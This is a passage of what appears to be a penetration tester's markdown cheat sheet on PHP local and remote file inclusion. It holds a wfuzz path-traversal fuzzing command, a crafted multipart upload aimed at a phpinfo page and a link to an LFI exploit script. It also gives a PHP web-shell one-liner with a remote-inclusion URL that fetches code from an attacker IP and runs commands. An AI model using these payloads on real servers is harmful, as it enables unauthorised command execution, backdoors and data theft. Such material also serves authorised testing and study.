 ```
?mod={payload}
?conf={payload}
```

#### Fuzz for files
```bash
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

## `phpinfo.php` - LFI

[[PHP-Webserver-Commonalities]], and phpinfo.php page contain both the configuration for whether uploads are enabled but also  PHP Variables section that be then check after attempting upload.

```
Content-Type: multipart/form-data; boundary=BadFileFromBurp
Content-Length: 0

----BadFileFromBurp
Content-Disposition: form-data; name="anything"; filename="BadFile"
Content-Type: text/plain

This is Bad File from burp that will appear in the PHP info page as_FILE["anything"]
----BadFileFromBurp
```

[Payload all the things](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)

#### RFI Local Serving Payloads
```php
<?php echo shell_exec($_GET['cmd']); ?>
# For similar:
# http://poor_web_server/bad.php?file=http://attacker_ip/evil.txt&cmd=whoami
```


## References

[certcube](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)
[Kory Kyzar](https://gist.github.com/korrosivesec)
[rapid7](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 
https://www.php.net/manual/en/wrappers.php](https://www.php.net/manual/en/wrappers.php)
[https://www.php.net/manual/en/wrappers.php.php](https://www.php.net/manual/en/wrappers.php.php)
[https://www.php.net/manual/en/wrappers.data.php](https://www.php.net/manual/en/wrappers.data.php)
[https://www.php.net/manual/en/filesystem.configuration.php](https://www.php.net/manual/en/filesystem.configuration.php)

## Appendix
